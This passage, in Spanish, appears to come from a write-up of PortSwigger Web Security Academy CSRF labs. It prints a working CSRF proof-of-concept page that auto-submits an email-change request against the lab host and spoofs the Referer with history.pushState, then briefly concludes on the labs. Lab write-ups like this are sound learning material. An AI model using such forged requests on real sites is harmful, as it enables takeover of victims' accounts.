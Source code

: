 Entonces nuestro exploit quedaria asi:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <script>history.pushState('', '', '/exploit?ac2b1ffb1e786893c031bc8200e300d0.web-security-academy.net')</script>
    <form action="https://ac2b1ffb1e786893c031bc8200e300d0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;a&#46;a" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Luego de ello, lo escribimos en el **exploit server** y lo enviamos a la victima.

![](img33.png)

## CONCLUSION

Al inicio crei que los laboratorios iban a ser sencillos, aunque el **laboratorio 5** sobre CRLF me dejo sorprendido. Tambien el **Laboratorio 8** en donde editamos el historial para realizar el referer y agregamos la cabecera **Referrer-Policy: unsafe-url**









